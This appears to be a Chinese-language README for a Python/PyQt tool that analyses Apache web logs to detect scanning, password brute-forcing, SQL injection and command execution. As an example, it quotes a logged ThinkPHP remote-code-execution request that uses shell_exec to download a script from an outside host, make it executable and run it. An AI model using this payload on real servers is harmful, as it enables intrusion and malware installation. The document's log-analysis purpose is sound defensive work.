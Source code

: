 ### 基于python的web日志分析工具
#### 简介
&emsp;&emsp;当前web服务面临的安全威胁越来越多，基本上任何一台连接互联网的服务器都被不同程度的扫描过，甚至有一些被攻击过。而对web日志进行分析无疑是发现威胁，以及攻击溯源的重要手段。开发该工具旨在减轻安全人员的压力，更加快速准确的发现安全威胁。
#### 功能实现
&emsp;&emsp;考虑到当前能力和资源均有限，该工具主要是发现一些现有的，比较常见的威胁，并且初期的版本将只针对常见的攻击和扫描进行识别，并对一些简单的攻击进行溯源。分析的日志目前也比较单一，主要是apache的标准web日志。预计在项目进行过程中将会根据实际情况进行必要的拓展。结合最近手动分析的一些web日志，我们发现了一些威胁出现的频率非常高，这里面出现最频繁的就是密码爆破和后台目录扫描，因此对这两种威胁的发现也将是该工具实现功能的重点。除此之外，也有少数但后果相当严重的威胁来源于对远程代码执行漏洞的攻击和一些获取webhell的攻击。其他攻击目前基本没有发现，大概是因为笔者的服务器价值不高，且无论服务器价值，高级的攻击都不常见。

    一段命令执行的请求：185.244.25.128 - - [31/Jan/2019:05:47:12 +0800] "GET /index.php?s=/index/%5Cthink%5Capp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=wget%20http://infinityondemand.club/bins/infinity.sh;%20chmod%20+x%20infinity.sh;%20sh%20infinity.sh%20 HTTP/1.1" 200 54340 "-" "Go-http-client/1.1"
    该请求出正常要求外还会下载一个脚本，修改权限并执行该恶意脚本。
综合各种情况，该工具将实现对以下威胁的识别：（不完全）

1. 目录爆破
2. 密码爆破
3. SQL注入
4. 命令执行
5. 其他待定
#### 使用的技术
&emsp;&emsp;为使软件的使用更加便捷，该工具基于图形界面设计，使用的技术基于pyqt。软件各项功能均基于python实现。具体技术细节日后将在后续的日志中逐一进行完善。